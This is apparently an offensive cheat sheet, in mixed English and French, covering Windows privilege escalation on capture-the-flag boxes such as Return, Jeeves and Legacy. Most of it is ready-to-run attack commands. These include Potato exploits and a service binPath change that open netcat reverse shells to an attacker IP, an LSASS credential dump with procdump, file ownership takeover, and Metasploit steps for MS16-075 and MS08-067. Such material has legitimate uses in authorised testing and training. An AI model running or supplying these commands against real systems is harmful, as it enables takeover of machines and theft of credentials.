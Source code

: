 ## Windows User Privileges

### SeImpersonate/SeAssignPrimaryToken
> Allows impersonation of tokens - can be exploited with Potato attacks

```powershell
# Check if you have the privilege
whoami /priv

# For Windows Server 2016 & below
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe attacker-ip 4444 -e cmd.exe" -t *

# For Windows Server 2019 & Windows 10 (1809+)
c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe attacker-ip 4444 -e cmd"
c:\tools\RoguePotato.exe -r attacker-ip -e "c:\tools\nc.exe attacker-ip 4444 -e cmd.exe" -l 9999
```

### SeDebugPrivilege
> Allows attaching to and debugging processes - can dump LSASS or inject into processes

```powershell
# Enable the privilege if disabled
Import-Module .\Enable-Privilege.ps1
Enable-Privilege -Name "SeDebugPrivilege"

# Dump LSASS for credentials
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# RCE as SYSTEM
$system_pid = Get-Process winlogon | Select -ExpandProperty Id
[MyProcess]::CreateProcessFromParent($system_pid,"cmd.exe","")
```

### SeTakeOwnershipPrivilege
> Allows to take ownership of any securable object

```powershell
# Enable the privilege
Enable-Privilege -Name "SeTakeOwnershipPrivilege"

# Take ownership of a file
takeown /f "C:\path\to\file.txt"

# Modify permissions to gain full access
icacls "C:\path\to\file.txt" /grant username:F
```
## Techniques d'élévation de privilèges Windows dans des Box
### Exploitation des groupes de sécurité
Exemple (Return):
```bash
# Vérifier les appartenances aux groupes
whoami /all

# Exploitation du groupe Server Operators
sc.exe config <SERVICE> binPath="C:\path\to\nc.exe -e cmd.exe <IP> <PORT>"
sc.exe stop <SERVICE>
sc.exe start <SERVICE>
```
### Exploitation des droits SeImpersonate
Exemple (Jeeves):
```bash
# Utiliser Metasploit pour l'exploitation
use exploit/windows/local/ms16_075_reflection
set SESSION <SESSION_ID>
set LHOST <IP>
set LPORT <PORT>
exploit

# Utiliser Incognito pour l'usurpation de jetons
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```
### Exploitation des vulnérabilités connues
Exemple (Legacy):
```bash
# Exploitation de MS08-067
use exploit/windows/smb/ms08_067_netapi
set RHOSTS <IP>
set LHOST <IP>
exploit
```
